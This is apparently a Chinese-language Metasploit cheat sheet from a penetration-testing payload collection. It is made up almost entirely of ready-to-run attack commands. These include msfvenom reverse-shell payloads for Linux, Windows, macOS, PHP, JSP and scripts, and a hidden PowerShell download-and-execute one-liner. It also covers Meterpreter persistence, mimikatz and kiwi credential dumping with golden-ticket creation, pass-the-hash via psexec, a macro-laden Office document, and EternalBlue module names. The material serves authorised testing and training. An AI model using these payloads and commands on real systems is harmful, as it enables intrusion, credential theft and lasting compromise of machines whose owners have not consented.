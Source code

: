 # Metasploit

## 概述

* [安装](#安装)
* [会话](#会话)
* [后台处理程序](#后台处理程序)
* [基础Meterpreter](#基础-meterpreter)
  * [生成一个meterpreter](#生成一个meterpreter)
  * [Meterpreter Webdelivery](#meterpreter-webdelivery)
  * [获取系统](#获取系统)
  * [持久性启动](#持久性启动)
  * [网络监控](#网络监控)
  * [端口转发](#端口转发)
  * [上传/下载](#上传---下载)
  * [从内存执行](#从内存执行)
  * [Mimikatz](#mimikatz)
  * [传递哈希 - PSExec](#传递哈希---psexec)
  * [使用SOCKS代理](#使用socks代理)
* [Metasploit脚本](#metasploit脚本)
* [多重传输](#多重传输)
* [精选 - 漏洞利用](#精选---漏洞利用)
* [参考资料](#参考资料)

## 安装

```powershell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
```

## 会话

```powershell
CTRL+Z   -> 将会话放入后台
sessions -> 列出所有会话
sessions -i session_number -> 与指定ID的会话交互
sessions -u session_number -> 将会话升级为meterpreter
sessions -u session_number LPORT=4444 PAYLOAD_OVERRIDE=meterpreter/reverse_tcp HANDLER=false-> 将会话升级为meterpreter

sessions -c cmd           -> 在多个会话上执行命令
sessions -i 10-20 -c "id" -> 在多个会话上执行命令
```

## 后台处理程序

ExitOnSession：如果meterpreter死亡，处理程序将不会退出。

```powershell
screen -dRR
sudo msfconsole

use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false

generate -o /tmp/meterpreter.exe -f exe
to_handler

[ctrl+a] + [d]
```

## 基础Meterpreter

### 生成一个meterpreter

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '
' > shell.php && pbpaste >> shell.php
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery

设置在端口8080上监听的PowerShell Web交付。

```powershell
use exploit/multi/script/web_delivery
set TARGET 2
set payload windows/x64/meterpreter/reverse_http
set LHOST 10.0.0.1
set LPORT 4444
run
```

```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```

### 获取系统

```powershell
meterpreter > getsystem
...通过技术1（命名管道模拟（内存中/管理员））获取系统。

meterpreter > getuid
服务器用户名：NT AUTHORITY\SYSTEM
```

### 持久性启动

```powershell
选项：

-A        自动启动匹配的exploit/multi/handler以连接到代理
-L <opt>  在目标主机上写入有效载荷的位置，如果没有则使用%TEMP%
-P <opt>  要使用的有效载荷，默认为windows/meterpreter/reverse_tcp。
-S        自动在启动时以服务形式启动代理（具有SYSTEM权限）
-T <opt>  使用备用可执行文件模板
-U        用户登录时自动启动代理
-X        系统启动时自动启动代理
-h        此帮助菜单
-i <opt>  每次连接尝试之间的间隔时间（以秒为单位）
-p <opt>  运行Metasploit的系统监听的端口
-r <opt>  运行Metasploit监听回连的系统的IP

meterpreter > run persistence -U -p 4242
```

### 网络监控

```powershell
# 列出接口
run packetrecorder -li

# 记录接口编号1
run packetrecorder -i 1
```

### 端口转发

```powershell
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### 上传/下载

```powershell
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### 从内存执行

```powershell
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz

```powershell
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```powershell
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### 传递哈希 - PSExec

```powershell
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                                                          no        用于身份验证的Windows域
SMBPass               598ddce2660d3193aad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf  no        指定用户的密码
SMBUser               Lambda                                                             no        作为进行身份验证的用户名
```

### 使用SOCKS代理

```powershell
setg Proxies socks4:127.0.0.1:1080
```

## 编写Metasploit脚本

使用`.rc文件`编写要执行的命令，然后运行`msfconsole -r ./file.rc`。
以下是一个简单的示例，用于部署处理程序并创建带有宏的Office文档。

```powershell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 4646
set ExitOnSession false
exploit -j -z


use exploit/multi/fileformat/office_word_macro 
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

## 多传输方式

```powershell
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

然后，在AddTransports.ps1中

```powershell
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

## 最佳利用 - 漏洞

* MS17-10 永恒之蓝 - `exploit/windows/smb/ms17_010_eternalblue`
* MS08_67 - `exploit/windows/smb/ms08_067_netapi`

## 参考资料

* [Meterpreter有效载荷中的多传输方式 - ionize](https://ionize.com.au/multiple-transports-in-a-meterpreter-payload/)
* [创建Metasploit有效载荷 - Peleus](https://netsec.ws/?p=331)